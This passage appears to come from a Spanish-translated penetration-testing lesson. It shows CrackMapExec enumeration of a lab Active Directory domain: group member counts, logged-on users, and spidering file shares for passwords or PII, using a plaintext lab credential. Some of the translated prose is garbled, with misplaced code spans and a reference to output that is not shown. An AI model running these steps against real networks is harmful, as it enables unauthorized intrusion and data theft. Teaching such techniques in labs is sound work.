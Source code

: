 ```shell-session
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Domain Users                             membercount: 0

<SNIP>

SMB         172.16.5.5      445    ACADEMY-EA-DC01  Contractors                              membercount: 138
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Accounting                               membercount: 15
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Engineering                              membercount: 19
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Executives                               membercount: 10
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Human Resources                          membercount: 36

<SNIP>
```
### CME - Usuarios conectados

También podemos usar CME para apuntar a otros hosts. Echemos un vistazo a lo que parece ser un servidor de archivos para ver qué usuarios están conectados actualmente.

```shell-session
lilscott6x9@htb[/htb]$ sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users

SMB         172.16.5.130    445    ACADEMY-EA-FILE  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-FILE) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.5.130    445    ACADEMY-EA-FILE  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2 (Pwn3d!)
SMB         172.16.5.130    445    ACADEMY-EA-FILE  [+] Enumerated loggedon users
SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\clusteragent              logon_server: ACADEMY-EA-DC01
SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\lab_adm                   logon_server: ACADEMY-EA-DC01
SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\svc_qualys                logon_server: ACADEMY-EA-DC01
SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\wley                      logon_server: ACADEMY-EA-DC01
```
Vemos varias acciones disponibles para nosotros con `READ`acceso. Valdría la pena profundizar más en los recursos compartidos `Department Shares`, `User Shares`y, ya que pueden contener datos confidenciales como contraseñas o PII. `ZZZ_archive`A continuación, podemos profundizar en los recursos compartidos y explorar cada directorio en busca de archivos. El módulo `spider_plus`examinará cada recurso compartido legible en el host y enumerará todos los archivos legibles. Hagamos un intento.
### Spider_plus

```shell-session
lilscott6x9@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2 
SPIDER_P... 172.16.5.5      445    ACADEMY-EA-DC01  [*] Started spidering plus with option:
SPIDER_P... 172.16.5.5      445    ACADEMY-EA-DC01  [*]        DIR: ['print$']
SPIDER_P... 172.16.5.5      445    ACADEMY-EA-DC01  [*]        EXT: ['ico', 'lnk']
SPIDER_P... 172.16.5.5      445    ACADEMY-EA-DC01  [*]       SIZE: 51200
SPIDER_P... 172.16.5.5      445    ACADEMY-EA-DC01  [*]     OUTPUT: /tmp/cme_spider_plus
```